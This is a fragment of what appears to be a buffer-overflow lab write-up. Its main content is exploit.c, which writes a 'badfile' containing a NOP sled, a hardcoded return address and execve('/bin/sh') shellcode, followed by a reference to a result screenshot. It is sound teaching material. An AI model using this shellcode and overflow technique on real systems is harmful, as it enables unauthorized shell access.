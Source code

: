 * Write the **code** according to the instruction in the tutorial

  ```c
  /* exploit.c */
  /* A program that creates a file containing code for launching shell*/
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>
  
  char shellcode[]=
  	"\x31\xc0" /* xorl %eax,%eax */
  	"\x50" /* pushl %eax */
  	"\x68""//sh" /* pushl $0x68732f2f */
  	"\x68""/bin" /* pushl $0x6e69622f */
  	"\x89\xe3" /* movl %esp,%ebx */
  	"\x50" /* pushl %eax */
  	"\x53" /* pushl %ebx */
  	"\x89\xe1" /* movl %esp,%ecx */
  	"\x99" /* cdq */
  	"\xb0\x0b" /* movb $0x0b,%al */
  	"\xcd\x80" /* int $0x80 */
  ;
  
  int main(int argc, char **argv)
  {
  	char buffer[517];
  	FILE *badfile;
  	/* Initialize buffer with 0x90 (NOP instruction) */
  	memset(&buffer, 0x90, 517);
  	/* You need to fill the buffer with appropriate contents here */
  	*((long *) (buffer + (41+4))) = 0xbfffeae7+ 0x80;
  	memcpy(buffer + sizeof(buffer) - sizeof(shellcode), shellcode, sizeof(shellcode));
  	/* Save the contents to the file "badfile" */
  	badfile = fopen("./badfile", "w");
  	fwrite(buffer, 517, 1, badfile);
  	fclose(badfile);
  	return 0;
  }
  ```

* Result:

  ![1584121139905](assets/1584121139905.png)
